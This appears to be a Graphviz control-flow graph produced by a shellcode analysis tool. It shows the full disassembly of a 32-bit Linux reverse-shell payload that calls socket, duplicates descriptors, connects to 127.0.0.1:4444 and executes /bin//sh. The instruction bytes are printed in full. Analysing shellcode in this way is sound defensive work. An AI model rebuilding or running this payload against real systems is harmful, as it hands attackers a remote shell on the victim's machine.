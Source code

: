 digraph G {
	//rankdir=LR
	node [fontname=Courier, labeljust=r];
	 "0x876da70" [shape=box, label = "0x00417000 31DB                            xor ebx,ebx\l0x00417002 53                              push ebx\l0x00417003 43                              inc ebx\l0x00417004 53                              push ebx\l0x00417005 6A02                            push byte 0x2\l0x00417007 6A66                            push byte 0x66\l0x00417009 58                              pop eax\l0x0041700a 89E1                            mov ecx,esp\l"]
	 "0x876a9c8" [shape=box, style=filled, color=".7 .3 1.0", label = "0x0041700c socket\l"]
	 "0x876e6e8" [shape=box, label = "0x0041700e 93                              xchg eax,ebx\l0x0041700f 59                              pop ecx\l"]
	 "0x8770c90" [shape=box, label = "0x00417010 B03F                            mov al,0x3f\l"]
	 "0x8770d90" [shape=box, style=filled, color=".7 .3 1.0", label = "0x00417012 dup2\l"]
	 "0x8770e68" [shape=box, label = "0x00417014 49                              dec ecx\l"]
	 "0x8770f68" [shape=box, label = "0x00417015 79                              jns 0x1\l"]
	 "0x8771068" [shape=box, label = "0x00417017 5B                              pop ebx\l0x00417018 5A                              pop edx\l0x00417019 687F000001                      push dword 0x100007f\l0x0041701e 6668115C                        push word 0x5c11\l0x00417022 43                              inc ebx\l0x00417023 6653                            push bx\l0x00417025 89E1                            mov ecx,esp\l0x00417027 B066                            mov al,0x66\l0x00417029 50                              push eax\l0x0041702a 51                              push ecx\l0x0041702b 53                              push ebx\l0x0041702c 89E1                            mov ecx,esp\l0x0041702e 43                              inc ebx\l"]
	 "0x8771d78" [shape=box, style=filled, color=".7 .3 1.0", label = "0x0041702f connect\l"]
	 "0x8771e58" [shape=box, label = "0x00417031 52                              push edx\l0x00417032 682F2F7368                      push dword 0x68732f2f\l0x00417037 682F62696E                      push dword 0x6e69622f\l0x0041703c 89E3                            mov ebx,esp\l0x0041703e 52                              push edx\l0x0041703f 53                              push ebx\l0x00417040 89E1                            mov ecx,esp\l0x00417042 B00B                            mov al,0xb\l"]
	 "0x8772668" [shape=box, style=filled, color=".7 .3 1.0", label = "0x00417044 execve\l"]
	 "0x876da70" -> "0x876a9c8" [style = bold ]
	 "0x876a9c8" -> "0x876e6e8" [style = bold ]
	 "0x876e6e8" -> "0x8770c90" [style = bold ]
	 "0x8770c90" -> "0x8770d90" [style = bold, color=orange ]
	 "0x8770d90" -> "0x8770e68" [style = bold, color=orange ]
	 "0x8770e68" -> "0x8770f68" [style = bold, color=orange ]
	 "0x8770f68" -> "0x8770c90" [style = bold, color=orange ]
	 "0x8770f68" -> "0x8771068" [style = bold ]
	 "0x8771068" -> "0x8771d78" [style = bold ]
	 "0x8771d78" -> "0x8771e58" [style = bold ]
	 "0x8771e58" -> "0x8772668" [style = bold ]
}
